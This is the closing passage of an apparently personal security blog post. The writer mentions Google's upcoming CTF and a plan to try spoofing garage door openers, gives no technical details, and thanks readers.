However, [Google's CTF](https://capturetheflag.withgoogle.com/) is coming up (if you haven't signed up for it yet, make sure you do! It's pretty fun and has great challenges!) and as such I'm not sure I'll have too much time for it in the coming days.

Additionally, I really want to pick up some tools I borrowed to try and spoof garage door openers and try an attack I saw on a talk online.
More details coming hopefully (or not if I manage to do it and find it too easy to replicate for the actual result - being able to open any garage door is kind of dangerous I guess 😅).

Once again, thanks for putting up with my rambly nonsense :)<br/>
And as always: thanks for reading!
